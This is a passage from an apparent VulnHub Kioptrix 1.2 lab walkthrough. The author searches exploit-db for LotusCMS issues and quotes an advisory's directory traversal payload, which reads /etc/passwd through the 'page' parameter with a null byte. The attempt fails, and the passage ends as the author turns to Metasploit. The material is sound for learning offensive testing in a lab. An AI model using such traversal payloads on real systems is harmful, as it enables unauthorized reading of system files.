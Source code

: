 ```bash
------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result                                                                                             
```

Oh wow, maybe one of these works... Let's take a look at the second item on the list:

```bash
cat /usr/share/exploitdb/exploits/php/webapps/16982.txt
```

I went ahead and followed the link to [this disclosure](https://www.immuniweb.com/advisory/HTB22883). There's quite a bit here, most of which requires authentication, but let's focus on the last item:

```bash
3) Directory traversal vulnerability in LotusCMS
The vulnerability exists due to insufficient validation of input data in the "page" parameter in core/model/PageModel.php. A remote attacker can create a specially crafted HTTP request containing directory traversal sequences with NULL byte and read arbitrary files on the target system.
Exploitation example:
http://host/index.php?page=./../../../../../etc/passwd%00
```

Hmm! Let's give it a shot.

![Trying to get an LFI](/assets/img/VulnHub/Kioptrix1.2_8.PNG)

No luck.. There's also that first result which is a MetaSploit module. Let's fire up `msfconsole` real quick and try it out.
